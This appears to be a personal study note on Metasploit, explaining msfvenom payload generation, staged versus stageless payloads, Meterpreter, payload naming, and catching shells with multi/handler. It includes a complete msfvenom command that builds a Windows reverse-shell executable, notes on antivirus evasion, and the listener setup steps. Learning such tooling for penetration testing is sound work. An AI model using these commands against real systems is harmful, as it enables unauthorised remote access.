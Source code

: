 ```
  __  __                      _ _          _           
 |  \/  |                    | | |        (_)          
 | \  / |_   _ ___ _ __   ___| | |__   ___ _ _ __ ___  
 | |\/| | | | / __| '_ \ / _ \ | '_ \ / _ \ | '_ ` _ \ 
 | |  | | |_| \__ \ |_) |  __/ | | | |  __/ | | | | | |
 |_|  |_|\__,_|___/ .__/ \___|_|_| |_|\___|_|_| |_| |_|
                  | |                                  
                  |_|
```
	            Realm of exploits that melt your system like fire


# What are exploits?
---
## Metasploit
 WIP

## MsfVenom
---
MsfVenom is one of the premiere tools for generating malware and exploits/payloads, it can be used to make payloads in loads of runnable formats for different operating systems and architectures and its syntax is as follows:

	msfvenom -p <PAYLOAD> <OPTIONS>

so to run a windows x64 reverse shell as an exe file format we would type:

	msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe lhost=<listener-ip> lport=<listener-port>


![[Making a payload on msfvenom.png]]

- **-f** (format)

- Specifies the output format. In this case that is an executable (EXE)

- **-o** (file)

- The output location and filename for the generated payload.

- **lhost=**(IP)

- Specifies the IP to connect back to. 

- **lport=**(port)

 The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

Also make sure to follow that exact syntax and not capitalize lhost and lport options, as that would produce an error.

---
### Staged vs Stageless payloads

- Staged payloads are split and sent into two part. The first part is called the stager, this piece of code is executed directly on the server itself. It connects back to a listener, but it doesn't contain any of the reverse shell code which would get flagged. It uses the established connection with the listener to load the real payload, executing it directly without it ever touching the disk, thus lowering the chances of it being caught by traditional antivirus software programs. Thus, our payload is split into two stages (hence the name 'staged' payload) a small initial stager which is then responsible for downloading the bulkier reverse shell code. Staged payloads require a listener such as the metasploit multi/handler
- Stageless payloads are more common and tend to be entirely self-contained and when executed sends a shell back to the waiting listener immediately.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

---
### Meterpreter

On the subject of Metasploit, another important thing to discuss is a _Meterpreter_ shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they _must_ be caught in Metasploit.

---
### Payload Naming Conventions

When working with msfvenom, it's essential to understand how the naming system works. The basic convention is as follows:

`<OS>/<arch>/<payload>`  
  
For example:

`linux/x86/shell_reverse_tcp`  
-OS: linux
-Architecture: x86
-Payload: reverse tcp shell
-Use case: trigger a reverse tcp shell to the target linux machine

The exception to this convention is Windows 32bit targets. For these, the arch is not specified and it's left empty.

`windows/shell_reverse_tcp`

-OS: windows
-Architecture: x32
-Payload: reverse tcp shell
-Use case: trigger a reverse tcp shell to the target windows machine

For a 64bit Windows target, the arch would be specified as normal (x64).

Another thing to note is that stageless payloads are denoted with underscores __
while staged payloads are denoted with forward slash /


A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`  

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

---

the other important thing to note when working with msfvenom is:  

`msfvenom --list payloads`  

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads.

---
## Multi/handler

The metasploit multi/handler is what you want to use to listen for and catch shells, especially if you want to make yourself a meterpreter shell. It's also great to use with staged payloads



To use the multi/handler you got to access the msfconsole and type in:

	use multi/handler
	
![[Screenshot from 2025-07-13 01-00-57.png]]

You'll notice that the handler will load the generic/shell_reverse_tcp as a default payload.

Now we can view all the options by using the 

	options
	
command which will show that there are three options to set which are:

- payload (payload to use against target machine)
- LHOST (listener host)
- LPORT (listener port)

We have to specify the local host and local port which will be receiving the shell connection
as the multi/handler doesn't listen on all network interfaces like netcat does.

We can set the options with the following commands

	set PAYLOAD <payload>
	set LHOST <listener IP>
	set LPORT <listener port>

Note that in order to set the LPORT as a port under 1024 you have to first run metasploit with sudo privileges


![[Setting multi handler options.png]]

Now we can start the listener by using 

	exploit

When the staged payload is run, metasploit receives the connection and sends the rest of the payload and establishes a reverse shell


---
## Back to [[Bifröst]]
